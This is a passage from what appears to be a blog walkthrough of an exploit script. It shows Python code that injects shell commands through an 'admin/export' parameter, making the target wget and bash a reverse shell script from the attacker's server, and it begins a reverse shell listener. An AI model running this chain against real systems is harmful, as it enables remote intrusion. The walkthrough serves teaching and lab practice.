 #   headers - Headers to send with the command injection attempts
def executeRevShell(urlbase, wsIP, mutex, headers):
    if mutex!=None:
        mutex.acquire()

    #convert Ip to dec format
    ipDec = int(ipaddress.ip_address(wsIP))

    print("[*] Instructing the target to download and execute the reverse shell payload")
    with contextlib.suppress(requests.exceptions.ReadTimeout):
        requests.get(urlbase+"admin/export?table=x%26rm%20rs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26wget%20"+str(ipDec)+"%2frs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26bash%20rs", headers=headers, timeout=0.5)
{% endhighlight %}

Once the IP address has been converted to decimal format, the function exploits the command injection vulnerability to execute the commands `rm rs`, `wget [IP]/rs` and `bash rs`, where `[IP]` is the IP address of the web server in decimal format. These commands will delete any old reverse shell script, download our reverse shell script and execute it.

We use the `timeout` parameter in the last request to set its timeout to 500 milliseconds since we don't want to get stuck waiting for the response from the web server since it will be busy executing our reverse shell payload. We use the `contextlib` module on line 15 to suppress read timeouts. Read timeouts are timeouts where a HTTP response has been successfully transmitted to a web server but no response is received for enough time to trigger a timeout. More information about the different types of timeouts can be found in the [official documentation](https://docs.python-requests.org/en/master/_modules/requests/exceptions/). 

The code below contains a python reverse shell listener from the earlier blog post [Creating a Basic Python Reverse Shell Listener]({% post_url 2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener %}). It has been slightly modified to fit our purposes. More specifically, we have added the `mutex` and `commands` parameters. The `mutex` parameter can be used to inform another thread, in this case Thread 3, that the listener is ready to accept a connection. Its implementation is located at line 12 and 13 where the provided lock is simply released.

{% highlight python linenos %}
#listener - Creates a listener which can catch a reverse shell
#Params:
#   ip - IP address to listen on
#   port - Port to listen on
#   lock(opt) - A mutex to release after binding to the specified ip and port
#   commands(opt) - Commands to execute before creating an interactive shell
def listener(ip,port,mutex=None,commands=[]):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("[*] Listening on port " + str(port))
    if mutex != None:
        mutex.release()

    conn, addr = s.accept()
    print('[*] Connection received from ',addr)
    defaultSleepTime = 1 #Time to wait for command output before returning, Measured in seconds
    sleepTime = defaultSleepTime
    while True:
